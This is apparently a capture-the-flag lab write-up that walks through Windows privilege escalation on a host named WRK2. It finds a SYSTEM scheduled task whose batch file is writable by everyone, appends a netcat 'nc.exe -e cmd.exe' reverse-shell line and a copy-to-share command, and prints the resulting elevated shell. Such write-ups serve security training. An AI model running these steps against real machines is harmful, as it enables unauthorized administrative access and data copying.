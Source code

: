 ## Connect to WRK2
- RDP to WRK2
- Open a command shell.
- Look at the "C:\Users\laura.wood\Downloads>" directory.
- There's a nc.exe file. (Netcat)
	- If we manage to find some service or application that is running in the machine with administrator or system privileges, we might be able to execute netcat with administrative privileges, gaining an elevated administrative shell.
	- One quick way of escalating privileges inside a machine is through a misconfigured scheduled task, especially when it is using a binary or batch file that we can modify.

## List of tasks
- By using the command schtasks /query /fo csv /v | findstr “SYSTEM > tasks.csv”,we are able to forward a list of several tasks, to a CSV file, that run with administrative privileges (the /fo csv will print the text in a CSV format).
```
schtasks /query /fo csv /v | findstr “SYSTEM > tasks.csv”
```

> Based on the output, most of the tasks run from the Windows directory, which normally means that those tasks are well configured. A quick search into the CSV reveals that a certain task runs from the following file (**C:\SYNC\sync.bat**):


C:\Users\laura.wood\Downloads> schtasks /query /fo csv /v | findstr "SYSTEM > tasks.csv"
"WRK2","\FULLSYNC","3/14/2024 6:59:36 PM","Ready","Interactive/Background","3/14/2024 6:54:36 PM","1","CORP\Administrator","**C:\SYNC\sync.bat** ","N/A","N/A","Enabled","Disabled","Stop On Battery Mode, No Start On Batteries","SYSTEM","Disabled","72:00:00","Scheduling data is not available in this format.","One Time Only, Minute ","12:19:36 PM","4/2/2023","N/A","N/A","N/A","0 Hour(s), 5 Minute(s)","None","Disabled","Disabled"

## Query for the taskname
Query for the taskname, in order to get more information regarding the schedule task:
```
schtasks /query /fo list /tn FULLSYNC /v
```
Folder: \
HostName:                             WRK2
TaskName:                             \FULLSYNC
Next Run Time:                       3/14/2024 7:19:36 PM
Status:                                    Ready
Logon Mode:                          Interactive/Background
Last Run Time:                       3/14/2024 7:14:36 PM
Last Result:                            1
Author:                                   CORP\Administrator
Task To Run:                          C:\SYNC\sync.bat
Start In:                                  N/A
Comment:                              N/A
Scheduled Task State:         Enabled
Idle Time:                              Disabled
Power Management:            Stop On Battery Mode, No Start On Batteries
Run As User:                         SYSTEM
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                    One Time Only, Minute
Start Time:                           12:19:36 PM
Start Date:                           4/2/2023
End Date:                             N/A
Days:                                    N/A
Months:                               N/A
Repeat: Every:                     0 Hour(s), 5 Minute(s)
Repeat: Until: Time:            None
Repeat: Until: Duration:      Disabled
Repeat: Stop If Still Running:        Disabled

> FULLSYNC scheduled task runs every 5 minutes.

## Check the permissions of the file "C:\SYNC\sync.bat"
```
icacls C:\SYNC\sync.bat
```
Everyone:(F)
BUILTIN\Users:(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Administrators:(I)(F)
BUILTIN\Users:(I)(RX)


> - Full access on the sync.bat file.

## Set up a listener with the previously found netcat

With this information, we know that we can set up a listener with the previously found netcat executable, and edit the task to connect with the same executable with administrative privileges, receiving an elevated reverse shell:
```
nc -lnvp 4444
```
listening on [any] 4444 ...

## Edit the sync.bat file

Add the following code:
`C:\Users\laura.wood\Downloads\nc.exe -e cmd.exe 127.0.0.1 4444`
`copy C:\Windows\Temp \\s3.corp.thereserve.loc\backups\`

> After a couple of minutes (5 at most) you should receive an administrative reverse shell.
## Execute the task to force a reverse shell
If you want to execute the task inmediately, run the following command.
`
```
schtasks /run /tn FULLSYNC
```

SUCCESS: Attempted to run the scheduled task "FULLSYNC". 

On the first command shell you'll see the following output.

listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 54255
Microsoft Windows [Version 10.0.17763.4252]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

[[Flag-4 Administrative access to Corporate Division Tier 2 Infrastructure]]


